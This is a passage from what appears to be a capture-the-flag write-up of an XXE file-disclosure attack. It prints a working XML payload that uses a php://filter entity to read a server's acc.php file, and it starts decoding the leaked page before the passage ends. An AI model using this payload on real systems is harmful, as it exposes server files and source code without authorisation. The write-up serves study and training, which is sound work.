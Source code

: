 We got LFI, `expect` wrapper is not enabled so we cannot get `RCE`, but, we can read other system file, for example, if we click on `My Account`, we get a `GET` request to `acc.php`, we can maybe get more info if we read this file, we need to use `php://filter`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
<root>
  <name>
&xxe;</name>
<search>&xxe;
</search>
</root>
```

![Pasted image 20250425131503.png](../../IMAGES/Pasted%20image%2020250425131503.png)

Let's decode these contents:

```html
<!DOCTYPE html>
<html>
<head>
<style>
form
{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}


ul {
  list-style-type: none;
  margin: 0;
  padding: 0;
  overflow: hidden;
  background-color: #333;
}

li {
  float: left;
  border-right:1px solid #bbb;
}

```